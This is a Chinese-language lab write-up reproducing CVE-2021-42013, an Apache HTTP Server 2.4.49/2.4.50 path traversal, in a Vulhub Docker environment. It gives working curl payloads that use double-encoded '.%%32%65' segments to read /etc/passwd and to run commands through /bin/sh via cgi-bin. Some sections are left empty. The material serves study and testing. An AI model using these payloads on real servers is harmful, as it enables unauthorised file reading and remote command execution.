






# Apache HTTP_2.4.50_路径穿越漏洞(CVE-2021-42013)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2021-42013                                               |
| 漏洞名称 | Apache HTTP_2.4.50_路径穿越漏洞                              |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 2.4.49<br>2.4.50                                             |
| 漏洞描述 | CVE-2021-42013是由[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)的不完整修复导致的漏洞，攻击者可以使用路径遍历攻击将URL映射到由类似别名指令配置的目录之外的文件。 |
| 修复方案 | 升级至最新版本                                               |

### 1.1、漏洞描述

CVE-2021-42013是由[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)的不完整修复导致的漏洞，攻击者可以使用路径遍历攻击将URL映射到由类似别名指令配置的目录之外的文件

此漏洞影响Apache HTTP Server 2.4.49和2.4.50，而不影响更早版本。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Apache HTTP Server 2.4.49以及2.4.50两个版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/CVE-2021-42013

---

启动测试环境：

```bash
docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到`Apache HTTP Server`的`It works!`



#### 2、漏洞扫描



#### 3、漏洞验证

Apache HTTP Server 2.4.50修补了以前的CVE-2021-41773漏洞

但可以使用`.%%32%65`进行绕过（注意其中的`/icons/`必须是一个存在且可访问的目录）

##### 方式一 curl

```bash
 curl -v --path-as-is http://192.168.80.141:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```



在服务器上启用mods cgi或cgid后，此路径遍历漏洞将允许执行任意命令

```bash
 curl -v --data "echo;id" 'http://192.168.80.141:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```




##### 方式二 bp抓捕






### 1.5、修复建议

升级至最新版本